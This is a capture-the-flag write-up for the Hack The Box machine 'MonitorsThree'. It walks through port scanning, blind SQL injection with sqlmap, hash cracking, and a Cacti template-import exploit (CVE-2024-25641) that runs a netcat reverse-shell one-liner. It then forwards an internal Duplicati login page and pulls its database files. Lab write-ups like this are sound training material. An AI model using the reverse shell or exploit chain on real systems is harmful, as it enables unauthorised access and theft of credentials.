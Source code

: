 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```

MonitorsThree Writeup by <span style="color:yellow">jest</span>.

# Scan

```
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page on the monitorsthree site.:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)

Verified with the input '.

It looks to be blind.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8
```

We can try cracking the admin@monitorsthree credential:
```sh
hashcat -m 0 -a 0 31a181c8372e3afc59dab863430610e8 /usr/share/wordlists/rockyou.txt
```
This will provide a password.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

Cacti doesn't validate file names given through the package import feature, allowing it to write files onto the system or overwrite existing fils(even outside the cacti base path, as path traversal isn't filtered).

More can be found <a href="https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88">here.</a>

I used an automated attack found <a href="https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26">here.</a>

```python
my-venv/bin/python3 CVE-2024-25641.py \
    --user admin \
    --pass greencacti2001 \
    --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 666 >/tmp/f" \
    http://cacti.monitorsthree.htb/cacti/
```
After setting up a listener, this provides access to www-data on the machine.


&nbsp;

# Privilege Escalation

With a shell as www-data, I can see some ports open internally:

```
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:46525         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.53:53           0.0.0.0:*
udp        0      0 0.0.0.0:68              0.0.0.0:*
```

We can forward 8200 so it is reachable from our machine.

After port forwarding 8200 using chisel, we are presented with a login page:

![image](https://github.com/user-attachments/assets/82c5794a-5245-46f8-8c88-d5242a184f4d)

Duplicati is a backup client, however in one version is vulnerable to login bypass as it allows use for the db server passphrase to authenticate instead of the actual intended password.
This is a big problem as with access to the system and sqllite files, we can craft the passphrase to gain access.

I found the sqllite files in the /opt directory, and then moved them onto my machine.

Then installed sqlite browser, which should allow us to inspect the duplicati-server.sqlite db file.

